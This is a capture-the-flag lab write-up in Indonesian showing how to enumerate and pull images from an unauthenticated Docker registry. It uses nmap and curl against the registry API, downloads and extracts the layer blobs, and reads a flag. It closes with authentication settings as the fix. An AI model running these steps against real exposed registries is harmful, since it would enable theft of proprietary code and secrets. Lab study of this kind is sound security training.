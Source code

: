 # Insecure Docker Registry

## Apa itu docker registry

Docker registry merupakan sebuah aplikasi yang digunakan untuk menyimpan container image. Docker registry biasanya dideploy diatas docker engine sendiri atau sebagai container. 

Banyak sekali perusahaan memanfaatkan registry secara public untuk mempermudah pekerjaan mereka bahkan kalau kalian melakukan pencarian menggunakan mesin sodan, kalian bisa menemukan banyak sekali image registry yang terekspose ke internet. Tentu tidak semua image registry tersebut bisa kita eksploitasi dengan mudah. Sekarang saya akan membahas sebuah lab yang disediakan oleh pentester academy.

## Environment Lab

docker registry : 192.111.246.3  
attacker : 192.111.246.2

## Gather Information

Scan target menggunakan nmap, because why not :)
```
root@attackdefense:~# nmap -p- -sV 192.111.246.3
Starting Nmap 7.70 ( https://nmap.org ) at 2020-10-01 03:09 UTC
Nmap scan report for target-1 (192.111.246.3)
Host is up (0.000014s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
5000/tcp open  http    Docker Registry (API: 2.0)
MAC Address: 02:42:C0:6F:F6:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.14 seconds
```

Dari hasil scaning didapatkan port `5000` dengan tipe service `http`, version `Docker Registry (API: 2.0)`.

Kemudian kita coba interaksi ke API registry menggunakan `curl`.
```
root@attackdefense:~# curl http://192.111.246.3:5000/v2/_catalog
{"repositories":["treasure-trove"]}
```

Dari sini kita medapatkan bahwa registry terbuka tanpa perlu authentikasi.

## Extract container images

Dari informasi yang kita dapatkan, kita coba extract image `treasure-trove`. Terlebih dahulu list tags dari image tersebut untuk memastikan apabila ada image dengan tags lain yang mungkin lebih menarik.

```
root@attackdefense:~# curl http://192.111.246.3:5000/v2/treasure-trove/tags/list
{"name":"treasure-trove","tags":["latest"]}
```
Ternyata hanya ada tag latest. Kemudian kita extract manifest dari image tersebut.

```
root@attackdefense:~# curl http://192.111.246.3:5000/v2/treasure-trove/manifests/latest
{
   "schemaVersion": 1,
   "name": "treasure-trove",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:2a62ecb2a3e5bcdbac8b6edc58fae093a39381e05d08ca75ed27cae94125f935"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:e7c96db7181be991f19a9fb6975cdbbd73c65f4a2681348e63a141a2192a5f10"
      }
   ],
```

Dari informasi blobSum ini kita bisa download image tersebut.

```
root@attackdefense:~# curl -s http://192.111.246.3:5000/v2/treasure-trove/blobs/sha256:2a62ecb2a3e5bcdbac8b6edc58fae093a39381e05d08ca75ed27cae94125f935 --output 1.tar
root@attackdefense:~# curl -s http://192.111.246.3:5000/v2/treasure-trove/blobs/sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4 --output 2.tar
root@attackdefense:~# curl -s http://192.111.246.3:5000/v2/treasure-trove/blobs/sha256:e7c96db7181be991f19a9fb6975cdbbd73c65f4a2681348e63a141a2192a5f10 --output 3.tar
root@attackdefense:~# ls
1.tar  2.tar  3.tar
```

Extract image yang sudah didownload.

```
root@attackdefense:~# mkdir image
root@attackdefense:~# mv *.tar image
root@attackdefense:~# cd image/
root@attackdefense:~/image# for i in 1 2 3; do tar -xf $i.tar; done
root@attackdefense:~/image# ls
1.tar  2.tar  3.tar  bin  dev  etc  home  lib  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@attackdefense:~/image#
```

## Find the flag

```
root@attackdefense:~/image# find . -name *flag* 2> /dev/null
./etc/network/if-post-up.d/flag.txt
root@attackdefense:~/image# cat etc/network/if-post-up.d/flag.txt
c09f6e2ecff56dcae50c02c6a4d355fe
root@attackdefense:~/image#
```

OK flag sudah ketemu..

Untuk real casenya kalian bisa mendapatkan source code aplikasi yang merupakan proprietary suatu organisasi.

## Penanganan

Kalian bisa mengaplikasikan authentikasi di docker registry kalian.
```
  token:
    realm: token-realm
    service: token-service
    issuer: registry-token-issuer
    rootcertbundle: /root/certs/bundle
  htpasswd:
    realm: basic-realm
    path: /path/to/htpasswd
```
`source :` https://docs.docker.com/registry/configuration/#auth